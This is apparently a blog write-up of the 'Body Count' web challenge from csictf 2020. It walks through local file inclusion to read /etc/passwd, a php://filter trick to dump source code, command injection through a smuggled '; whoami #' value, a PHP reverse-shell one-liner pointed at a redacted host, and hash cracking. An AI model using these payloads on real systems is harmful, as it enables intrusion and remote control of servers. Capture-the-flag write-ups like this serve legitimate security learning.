 ```yaml
---
title: Body Count
date: 2020-12-29
excerpt: "'Body Count' was a challenge in the Web category of csictf 2020"
classes: wide
categories: csictf2020
tags:
  - csictf2020
  - LFI
  - php
  - RCE
  - hash-cracking
---
```


![img](/assets/images/ctf/csictf2020-web-bodycount/0.png)


Loading up the site, we see file=wc.php. Any time I see something like this I always check for LFI.  

![img](/assets/images/ctf/csictf2020-web-bodycount/1.png)


`http://chall.csivit.com:30202/?file=../../../etc/passwd`



![img](/assets/images/ctf/csictf2020-web-bodycount/2.png)


So LFI is in play. Let's use the php filter wrapper and grab the source of the wc.php file.



`http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=wc.php`



After decoding the b64, we can get a look at what's going on under the hood.



![img](/assets/images/ctf/csictf2020-web-bodycount/3.png)


So our cookie needs to match the PASSWORD environment variable for us to get any further.  

Fortunately, robots.txt has a neat disallow.  

![img](/assets/images/ctf/csictf2020-web-bodycount/4.png)


Using the same method that we used to get the source of wc, we can get the source of checkpass  

![img](/assets/images/ctf/csictf2020-web-bodycount/5.png)


There's the password. Let's edit our cookie so we can proceed.  

Going back to the source of wc.php, we can see the command it's running, so all we need to do is inject our own command into it.  

`'; whoami #'`



'; to escape and end the previous command, whoami- our command, # to comment out the rest of the command



![img](/assets/images/ctf/csictf2020-web-bodycount/6.png)


Command injection is in play. Let's get a reverse shell.



`'; php -r '$sock=fsockopen("REDACTED",4444);exec("/bin/sh -i <&3 >&3 2>&3");' #'`



Now that we're in, browsing around the filesystem I found this directory



![img](/assets/images/ctf/csictf2020-web-bodycount/7.png)


And inside that directory is...



![img](/assets/images/ctf/csictf2020-web-bodycount/8.png)


cracked hash = csictf



Let's switch to the ctf user and browse some of these files  

![img](/assets/images/ctf/csictf2020-web-bodycount/9.png)
